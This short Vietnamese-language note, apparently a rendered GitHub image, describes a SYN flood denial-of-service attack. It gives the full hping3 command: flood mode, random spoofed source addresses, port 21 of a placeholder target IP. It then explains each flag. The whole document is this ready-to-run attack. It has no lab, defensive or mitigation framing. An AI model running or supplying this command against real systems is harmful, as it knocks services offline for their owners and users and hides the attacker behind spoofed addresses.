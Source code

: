 **Mô tả:** Tấn công DDoS SYN Flood bằng hping3

**Câu lệnh thực thi:**
```bash
hping3 -c 1000 -d 120 -S -w 64 -p 21 --flood --rand-source <ip-target>
```

- -c 1000: Gửi 1000 gói tin. 
- -d 120: Kích thước dữ liệu mỗi gói là 120 byte. 
- -S: Đặt cờ SYN trong gói tin TCP (mô phỏng kết nối TCP chưa hoàn chỉnh). 
- -w 64: Đặt kích thước cửa sổ TCP là 64. 
- -p 21: Nhắm đến cổng 21 (dịch vụ FTP). 
- --flood: Gửi gói tin nhanh nhất có thể. 
- --rand-source: Sử dụng địa chỉ IP nguồn ngẫu nhiên (spoofing). 
- <ip-target>: Địa chỉ IP đích của mục tiêu.
